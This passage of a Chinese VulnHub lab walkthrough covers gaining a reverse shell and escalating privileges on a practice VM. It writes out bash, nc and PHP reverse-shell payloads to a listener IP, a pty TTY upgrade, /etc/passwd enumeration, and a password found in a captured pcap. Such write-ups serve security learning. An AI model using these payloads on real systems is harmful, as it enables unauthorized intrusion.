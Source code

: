 ## 获取shell
- 步骤9：利用php反弹shell。Windows开启nc，监听4444端口：
[![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/21.png)](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/21.png)

为避免转义和中断，在get、post请求中输入payload需要进行url编码。尝试bash反弹shell、nc反弹shell，如下payload都失败：

`bash -i &gt;&amp; /dev/tcp/192.168.64.1/4444 0&gt;&amp;1`

`nc -e /bin/bash  -d 192.168.64.1 4444`

通过php反弹shell成功，将如下payload进行URL编码后，在burp中发送：

`php -r '$sock=fsockopen("192.168.64.1",4444);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'`

[![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/22.png)](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/22.png)

nc成功接收反弹shelll：

[![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/23.png)](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/23.png)

但是无法执行su命令，回显su: must be run from a terminal 需要一个终端。没有想出办法，最终google了一下，找到答案：用python调用本地的shell，命令：

`echo "import pty; pty.spawn('/bin/bash')" &gt; /tmp/asdf.py`

`python /tmp/asdf.py`

[![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/24.png)](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/24.png)

执行su成功：

[![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/25.png)](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/25.png)

## 

## 提升权限
- 步骤10：查看有哪些的用户 `cat /etc/passwd`,发现需要关注的用户有：acid,saman,root
[![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/26.png)](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/26.png)
<li>步骤11：查找每个用户的文件（不显示错误） `find / -user acid 2&gt;/dev/null`
</li>
[![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/27.png)](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/27.png)

发现/sbin/raw_vs_isi/hint.pcapng文件，这是一个网络流量抓包文件，将其拷贝的kali上，用Wireshark打开：

`scp /sbin/raw_vs_isi/hint.pcapng [root@10.10.10](mailto:root@10.10.10).140:/root/`

[![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/28.png)](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/vulnhub/_image/28.png)

只看TCP协议的包，发现saman的密码：1337hax0r
